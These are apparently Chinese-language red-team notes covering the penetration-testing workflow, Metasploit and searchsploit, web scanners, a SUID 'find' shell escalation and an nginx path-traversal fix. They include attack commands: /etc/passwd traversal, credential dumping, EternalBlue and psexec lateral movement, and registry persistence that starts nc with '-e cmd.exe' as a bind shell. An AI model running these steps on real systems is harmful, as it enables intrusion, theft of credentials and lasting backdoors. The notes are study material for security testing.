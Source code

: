 - exp_PayloadsAllTheThings
https://github.com/Threekiii/Awesome-Redteam
https://github.com/CnHack3r/Penetration_PoC

Web漏洞分析
* 我们要挖掘什么漏洞?
* 应该从哪里挖掘?
* 网站源码分析
* 路径穿越 见 [nginx路径穿越](#nginx-路径穿越)
* https://github.com/swisskyrepo/PayloadsAllTheThings
* 已知源码
* 我们可以下载其源码本地分析
* 百度该源码漏洞
* 未知源码
* 黑盒测试该网站漏洞(手工、工具自动扫描)

## 渗透流程
1. [端口大全](05_%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86.md)
1. awd/index.md 红队
1. 信息收集 > fscan/cscan/kscan(免杀), NMAP > AWVS > Appscan > Burpsuite > x-ray
    - scan - rw_scan_HCL.AppScan.Standard.v10.2.1.zip
    - scan - rw_scan_Invicti-Professional-v23.6.0.40861.zip
    - scan - rw_scan_awvs_Acunetix-v15.6-Linux-.zip
    - scan - rw_scan_Yakit-1.2.1-sp5-windows-amd64_6.exe
* 445 - 永恒之蓝, 有账户后 psexec 执行命令
* 2375端口: docker 未授权
* 21/2121:  ftp 匿名登录/未授权
* 6379:     redis/未授权
* 3269: [ldap](https://mp.weixin.qq.com/s/rltB3DNEVOnB0ESeoZhu7Q)
* msf > searchsploit thinkphp
```shell
  msf > searchsploit thinkphp
  cd /usr/share/exploitdb/exploits/php/webapps
  cat 46150.txt
```
* cs上线
  * logonpasswords
  * 收集域信息
2. msfconsole
```shell
migrate
search ms10_018 #(xp的)
ms08_067 # (445端口, 2008以外系统, KB958644)
-- ms17_010: 用 AutoBlue-MS17-010见90_tools
search ms17_010 # (永恒之蓝)
```
3. Web:  kali - web程序 -  ZAP 扫描
```
1. vulmap:  python vulmap.py -u http://192.168.50.8:2003/
2. web 目录遍历 `downfile.jsp?filename=fan.pdf` 测试 `../../../../etc/passwd`
```
4. [linux suid find 提权](https://mp.weixin.qq.com/s/8rgvLbOmmjcxVZT7BoW5Og)
```shell
find / -perm -4000 # 如果有find 执行下面
find ./ aaa -exec '/bin/sh' \;
```
5.横向移动/域
msf: 1. autoroute 2.add socks proxy 3.域控 4.psexec (需开启admin$共享和ipc$及445,知道密码或hash)
cs: smb上线其他域

## MSF
nmap 探测漏洞

searchsploit
."searchsploit"是一个用于Exploit-DB的命令行搜索工具,它还允许你随身带一份
Exploit-DB的副本.
* SearchSploit为您提供了在本地保存的存储库中执行详细的离线搜索的能力.这种能力特
别适用于在没有互联网接入的情况下对网络进行安全评估.许多漏洞都包含了二进制文件
的链接,这些文件不包含在标准存储库中,但可以在我们的Exploit-DB二进制文件中找到
* 如果您预计您将在一个没有Internet的网络环境进行渗透测试,请确保您检查了两个存储库
以获得最完整的数据集.注意,这个工具的名称是"SearchSploit",顾名思义,它将搜
索所有的漏洞和shellcode.它不会包含任何文件和谷歌黑客数据库的结果
* 终端输入searchsploit启动(已经默认在Kali/Parrot中安装)

https://www.exploit-db.com/

```shell
searchsploit
searchsploit -m xxxx/xxx.py  # 复制到当前目录
searchsploit -t linux remote # 标题包含Linux Remote
searchsploit apache
```

基本搜索
* 基本搜索会同时匹配标题和路径中的内容
* 如:searchsploit smb windows remote
* 标题搜索
* 标题搜索只匹配标题,不会对路径中的关键词进行匹配
* 如:searchsploit-t smb windows remote
* 删除不想要的结果
* 使用--exclude＝选项删除不想要的结果
* 如:searchsploit smb windows remote--exclude＝＂(POC)Jtxt＂

## AWVS
Acunetix Web Vulnerability Scanner(简称AWVS)是一款知名
的网络漏洞扫描工具,它通过网络爬虫测试你的网站安全,检测流
行安全漏洞.
Acunetix推出了一个具有漏洞的测试网站
http://test.vulnweb.com/.

AWVS常见功能
* 网站爬行
* 漏洞扫描
* 目标发现
* 子域名扫描
* http 编辑
* http嗅探
* http模糊测试
* 认证测试
* 网络服务扫描器

linux 版本安装后。访问时用https://xxx:3443/

[AWVS13批量添加目标脚本](https://blog.csdn.net/weixin_45382656/article/details/118565077)

## xray
https://github.com/chaitin/xray

awvs+xray https://www.cnblogs.com/zzjdbk/p/13195955.html

```
xray webscan --basic-crawler http://example.com --html-output vuln.html
xray webscan --listen 0.0.0.0:7001 --html-output awvs.html
xray webscan --listen 127.0.0.1:7777 --html-output proxy.html
```
### crawergo联动
https://www.freebuf.com/sectool/252790.html

```sh
crawlergo -c YourChromiumPath -t 标签页数 Url
./xray webscan --listen 127.0.0.1:7777 --html-output vulnerability.html
./crawlergo -c chrome-mac/Chromium.app/Contents/MacOS/Chromium -t 10--request-proxy http://127.0.0.1:7777 http://testphp.vulnweb.com/
```

> 如果想半⾃动化⼀点，比如测试多个url可以参考：https://github.com/timwhitez/crawlergo_x_XRAY

与 w13scan 联动：
```sh
python3 w13scan.py -s 127.0.0.1 --html   # 会监听7778
/crawlergo -c chrome-mac/Chromium.app/Contents/MacOS/Chromium -t 10 --request-proxy http://127.0.0.1:7778 http://testphp.vulnweb.com/
```

## 存在目录时，返回403响应码

# 进行权限维持
开机自启动
每次启动登录时都会按顺序自动执行.
```bash
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
```
- 上传nc

upload nc.exe C:\\windows\\system32

- 查看自启动注册表项I

reg enumkey-k HKLM\\software\\microsoft\\windows\\currentversion\\un

- 添加注册表,开机启动nc并开启监听

reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc-d 'C:\\windows\\system32\\nc64.exe-Ldp 5555-e cmd.exe'

- 查看注册表指定项值

reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc

- 计划任务

`schtasks /create /sc MINUTE /mo 1 /tr C:\Users\Administrator\Desktop\mx\5555.exe /tn test`


# 系统审记
## nginx 路径穿越
```
location /xxx {
  alias /abc/;
}
```
修复

```
location /xxx/ {
  alias /abc/;
}
```

# Article

[ldap](https://mp.weixin.qq.com/s/rltB3DNEVOnB0ESeoZhu7Q)
